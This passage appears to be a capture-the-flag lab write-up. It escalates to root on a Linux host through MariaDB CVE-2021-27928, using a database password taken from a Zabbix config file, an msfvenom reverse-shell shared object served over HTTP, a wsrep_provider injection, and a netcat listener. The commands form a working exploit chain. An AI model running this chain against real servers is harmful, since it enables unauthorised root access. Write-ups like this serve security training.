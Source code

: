 ```bash

mysql --version
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2  
```

Quick google search of that finds CVE-2021-27928, and many different PoC's on github. The 
exploit looks relatively simple, but requires me to connect to the mysql shell.
Tried the pumpkinpie password with database of zabbix, and admin user and didnt work.
Looking around on the server I finally stumbled into a zabbix directory in /etc with some conf files.
I just did a grep -v "#" zabbix_server.conf  file to get rid of all the clutter
```bash
DBName=zabbix



DBUser=zabbix

DBPassword=bloooarskybluh

```
 Now just follow the steps in the CVE...and get onto root.
 ```bash
 ➜  www msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.46 LPORT=7070 -f elf-so -o a.so   
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: a.so
➜  www python -m http.server 80                                                                      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.124 - - [30/Mar/2022 21:54:35] "GET /a.so HTTP/1.1" 200 -
```

Wget the file over into /tmp and log into mysql shell to finish the privesc

```bash
mysql --user zabbix -p zabbix
bloooarskybluh

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1761
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

SET GLOBAL wsrep_provider="/tmp/a.so";

```

```bash
➜  exploits nc -nvlp 7070
listening on [any] 7070 ...
connect to [10.10.14.46] from (UNKNOWN) [10.10.11.124] 41150
whoami
root
```
